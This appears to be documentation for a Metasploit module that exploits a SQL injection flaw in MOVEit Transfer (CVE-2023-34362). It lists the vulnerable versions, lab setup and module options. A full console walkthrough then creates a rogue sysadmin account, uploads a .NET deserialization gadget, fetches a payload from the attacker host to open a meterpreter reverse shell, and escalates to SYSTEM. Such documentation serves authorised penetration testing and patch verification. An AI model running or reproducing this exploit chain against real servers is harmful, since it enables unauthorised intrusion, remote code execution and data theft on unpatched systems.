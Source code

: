 ## Description
This module exploits an SQL injection vulnerability in the MOVEit Transfer web application
that allows an unauthenticated attacker to gain access to MOVEit Transfer’s database. 
Depending on the database engine being used (MySQL, Microsoft SQL Server, or Azure SQL), an
attacker can leverage an information leak be able to upload a .NET deserialization payload.

## Vulnerable Applications
MOVEit Transfer versions:

| Starting Version | Patched Version     |
|------------------|---------------------|
| 2023.0.0         | 2023.0.3 (15.0.3)   |
| 2022.1.x         | 2022.1.7 (14.1.7)   |
| 2022.0.x         | 2022.0.6 (14.0.6)   |
| 2021.1.x         | 2021.1.6 (13.1.6)   |
| 2021.0.x         | 2021.0.8 (13.0.8)   |
| 2020.1.x         | 2020.1.10 (12.1.10) |

# Installation Instructions
1. Installation requires a valid trial license that can be obtained by going here:
https://www.ipswitch.com/forms/free-trials/moveit-transfer
2. Ensure that your computer has intenet access for the license to activate and double-click the installer.
3. Follow installation instructions for an evaluation installation.
4. After the installation completes, follow the instructions to create an admin user.

## Options
**LOGIN_NAME**  (Required) Will be used as the login name for the system administrator created by the exploit.  The default is random.

**PASSWORD**    (Required) Will be used as the password name for the system administrator created by the exploit.  The default is random.

**USERNAME**    (Required) Will be used as the user name for the system administrator created by the exploit.  The default is random.

## Verification Steps
* Do: `msfconsole`
* Do: `use exploit/windows/http/moveit_cve_2023_34362`
* Do: `set rhost <rhost>`
* Do: `set lhost <lhost>`
* Do: `set fetch_srvhost <srvhost>`
* Do: `set lhost <lhost>`
* Do: `run`
* Do: **Verify** you get a session

## Scenarios
### Using MOVEit 15.0.0.3 on Windows Server 2022 21H2
```msf
msf exploit(windows/http/moveit_cve_2023_34362) > show options

Module options (exploit/windows/http/moveit_cve_2023_34362):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   LOGIN_NAME  CGN3c8hSeaE      yes       Login Name
   PASSWORD    pnislnpdAWX      yes       Password
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.5.134.242     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                          tasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /api/v1/token    no        Target URI
   USERNAME    wtxRmr5vw        yes       Username
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      lebHSskcwh       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       10.5.135.201     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/http/moveit_cve_2023_34362) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] [0/10] Get the sessionID and siLockLongTermInstID
[*] [1/10] Create New Sysadmin
[*] [2/10] Get API Token
[*] [3/10] Get Folder ID
[*] [4/10] Begin File Upload
[*] [5/10] Leak Encryption Key
[*] [6/10] Generate Gadget
[*] [7/10] Encrypt Gadget
[*] [8/10] Upload Encrypted Gadget
[*] [9/10] Trigger Gadget
[*] [10/10] Cleaning Up
[*] Sending stage (200774 bytes) to 10.5.134.242
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.242:51176) at 2023-06-21 15:35:47 -0500

meterpreter > sysinfo
Computer        : WIN-ED9OLD6JEO6
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-ED9OLD6JEO6\moveitsvc
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
